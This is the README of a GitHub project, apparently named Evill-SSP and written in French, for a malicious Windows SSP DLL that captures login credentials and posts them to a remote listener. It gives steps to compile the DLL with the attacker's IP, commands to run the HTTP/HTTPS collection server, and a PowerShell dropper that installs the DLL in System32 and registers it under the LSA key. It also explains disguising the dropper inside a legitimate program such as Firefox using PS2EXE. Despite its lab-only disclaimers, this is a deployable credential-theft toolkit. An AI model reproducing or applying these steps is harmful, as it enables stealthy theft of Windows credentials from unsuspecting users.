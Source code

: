 # Evill-SSP
ssp dll to steal windows credentials

---

## Description

Ce projet documente le développement, la compilation et l'utilisation d'une **DLL SSP (Security Support Provider)** sur Windows, capable d'intercepter des identifiants de connexion système, puis de les transmettre à un serveur web distant via HTTP ou HTTPS.

⚠️ **Ce projet est strictement à des fins de recherche en cybersécurité, de compréhension de l’architecture SSP Windows et de démonstration dans un environnement de LAB isolé.**  
**Toute utilisation en dehors d’un cadre légal et contrôlé est interdite.**

---

## Fonctionnalités

- Interception de credentials au moment de l'authentification système
- Exfiltration des identifiants vers un serveur distant en HTTP/HTTPS
- Intégration dans un processus légitime via un dropper PowerShell
- Configuration automatisée de la clé de registre Windows pour activer la DLL SSP

---

## Fichiers

```
.
├── evildll.cpp            # Code source de la DLL SSP
├── srv-creds-http.py      # Serveur web d'écoute HTTP (Flask)
├── srv-creds-https.py     # Serveur web d'écoute HTTPS (Flask)
├── dlltoexe.ps1           # Script PowerShell pour dropper la DLL et modifier la clé LSA
├── cert.pem / key.pem     # Certificat SSL/TLS pour le serveur HTTPS (À générer, non fournis.)
└── README.md              # Documentation complète du projet
```

---

## Compilation de la DLL

### Création d’un projet Visual Studio

1. Créer un nouveau projet :
   - **Type** : Dynamic Link Library (DLL)
   - **Nom** : `evildll`
2. Remplacer le contenu de `dllmain.cpp` par celui de `evildll.cpp`.
3. Modifier la ligne 55 en ajoutant l'ip de server de destination ainsi que le port.
4. Propriétés du projet :
   - **C/C++ > Général > Répertoires Include** : Ajouter le chemin du Windows SDK.
   - **C/C++ > En-têtes précompilés** : *Ne pas utiliser*.
5. Configuration : `Release x64`.
6. Générer la DLL.

---

## Serveur Web d'Écoute

### Mode HTTP (port 80)

```bash
python3 srv-creds-http.py
```

### Mode HTTPS (port 443)

```bash
python3 srv-creds-https.py --cert cert.pem --key key.pem
```

#### Génération du certificat auto-signé

```bash
openssl genrsa -out key.pem 2048
openssl req -new -key key.pem -out csr.pem
openssl x509 -req -days 365 -in csr.pem -signkey key.pem -out cert.pem
```

---

## Déploiement de la DLL via PowerShell

Le script `dlltoexe.ps1` :

* Lance un exécutable légitime (ex: Firefox).
* Copie la DLL dans `C:\Windows\System32`.
* Modifie la clé de registre `HKLM\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages`.

⚠️ Exécution requise en **mode administrateur**.

### modification dans le script :

```powershell
# Modifier les chemins source/target de l'exe et de la dll
Start-Process "C:\chemin\vers\mon_programme.exe"
Copy-Item "C:\chemin\vers\evildll.dll" -Destination "C:\Windows\System32"
```

---

## Création d’un exécutable unique avec PS2EXE
### Prérequis
- un exe légitime comme firefox ou autre
- la dll générer

Modifier le code source du script powershell pour modifier l'emplacement de l'executable et de la dll.

### PS2EXE
1. Installer le module PS2EXE :

```powershell
Install-Module -Name PS2EXE
Import-Module ps2exe
```

2. Emballer le script et un exécutable légitime dans un binaire autonome :

```powershell
Invoke-PS2EXE .\dlltoexe.ps1 .\build_firefox.exe
```

---

## Endpoint API

| Endpoint               | Méthode | Description                           |
| ---------------------- | ------- | ------------------------------------- |
| `/receive_credentials` | POST    | Réception des credentials interceptés |
| `/health`              | GET     | Vérifie si le serveur est actif       |

---

## ⚖️ Avertissement légal

> Ce code est à **usage strictement pédagogique** et ne doit **jamais être utilisé à des fins malveillantes**.
> L'auteur **ne pourra en aucun cas être tenu responsable** de l’utilisation frauduleuse, illégale ou non autorisée de ce code.
> Vous êtes **seul responsable** de vous conformer aux lois en vigueur dans votre pays concernant la sécurité informatique, l'espionnage électronique et la protection des systèmes informatiques.
> L'utilisation sur un système sans consentement explicite et documenté constitue une **infraction pénale**.
> L'auteur décline toute responsabilité en cas d’usage abusif.

---

## Références

* [Microsoft SSP Architecture](https://learn.microsoft.com/en-us/windows/win32/secauthn/security-support-provider)
* [WinHTTP API](https://learn.microsoft.com/en-us/windows/win32/api/winhttp/)
* [Flask](https://flask.palletsprojects.com/)
* [PS2EXE GitHub](https://github.com/MScholtes/PS2EXE)
